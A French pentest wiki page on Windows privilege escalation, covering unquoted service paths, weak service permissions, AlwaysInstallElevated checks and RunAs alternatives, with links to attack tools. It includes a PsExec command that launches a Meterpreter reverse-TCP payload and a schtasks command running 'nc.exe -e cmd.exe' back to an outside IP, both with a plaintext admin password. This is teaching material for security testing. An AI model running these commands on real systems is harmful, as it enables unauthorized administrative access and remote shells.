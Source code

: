 ```yaml
---
title: Elévation de priviléges (Windows)
permalink: /Elévation_de_priviléges_(Windows)/
---
```


# Elévation de priviléges (Windows)


The following elements are based on <http://toshellandback.com/2015/11/24/ms-priv-esc/>

## PowerSploit

Le module [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) permet de faire la plupart des contrôles ci-dessous de manière complétement automatisée.

## Vulnérabilités systèmes

Il est possible de trouver des vulnérabilités non patchées sur le système. L'outil [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester) facilite cette vérification.

## Mot de passes

De nombreux fichiers peuvent contenir des mots de passes sensibles. Voir [https://pentestlab.blog/2017/04/19/stored-credentials/](https://pentestlab.blog/2017/04/19/stored-credentials/).

## Trusted Service Paths

Si le "Service path" d'un service n'est pas mis entre quote il est possible d'effectuer une attaque. Pour l'exemple on considère le Service Path suivant:

``` text
C:\Program Files\Some Folder\Service.exe
```

Windows va essayer d'appeler les programmes suivant, jusqu'à ce que l'un d'eux soit identifé:

``` text
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

Ceci peut conduire à une compromission s'il est possible de créer `C:\Program.exe` ou `C:\Program` `Files\Some.exe`

[WMIC](/WMIC "wikilink") peut être utilisé pour contrôler ce point:

``` text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

On peut utiliser [icacls](/icacls "wikilink") pour vérifier les permissions:

``` text
icacls "C:\Program Files (x86)\Privacyware"
```

On peut ensuite relancer le service:

``` text
sc stop PFNet
sc start PFNet
```

Si on a pas les privilèges pour redémarrer le service, on peut essayer de redémarrer le serveur.

## Modifier un service Windows

Avec de la chance il est possible de modifier un service. L'outil [accesschk](/accesschk "wikilink") peut être utilisé pour vérifier ceci:

``` text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

On peut regarder les propriétés du service PFNet

``` text
sc qc PFNet
```

Il est parfois possible de changer le binaire lui même.

## AlwaysInstallElevated
Regarder si l'option `AlwaysInstallElevated` est active:

``` text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Alternatives à RunAs

On est parfois dans des situations où on a:

-   Un shell non interactif sur un serveur
-   Le mot de passe administrateur du serveur

Dans ce cas il est possible d'executer des commandes avec une des méthodes suivantes.

### PsExec

Il faut avoir uploaddé [PsExec](/PsExec "wikilink"). Ensuite on peut exécuter la commande suivante:

``` bash
PsExec \\BETHANY -u alice -p aliceisnice C:\HFS\encrypted_meterpreter_reverse_tcp_80.exe
```

### schtasks

Il est possible de créer une "scheduled task" et passer le mdp admin sur la ligne de commande.

``` bash
schtasks /create /sc once /tr "nc.exe -e cmd.exe 192.168.30.156 443" /tn MASUPERTACHE /st 00:00:00 /ru alice /rp aliceisnice
schtasks /run /tn MASUPERTACHE
```

## Ressources

### Outils

-   [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) pour identifier des possibilité d'élévation de priviléges.
-   [BypassUAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) pour contourner l'UAC.
-   Attaque [Hot Potato](https://foxglovesecurity.com/2016/01/16/hot-potato/)
-   [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

### Documents

-   [Encylopaedia of Windows Privilege Escalation (Video)](https://www.youtube.com/watch?v=kMG8IsCohHA)
-   [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
-   [All roads lead to SYSTEM (PDF)](https://labs.mwrinfosecurity.com/system/assets/760/original/Windows_Services_-_All_roads_lead_to_SYSTEM.pdf)
-   [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
-   [Windows Privilege Escalation Vectors](http://toshellandback.com/2015/11/24/ms-priv-esc/Common)
-   [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)


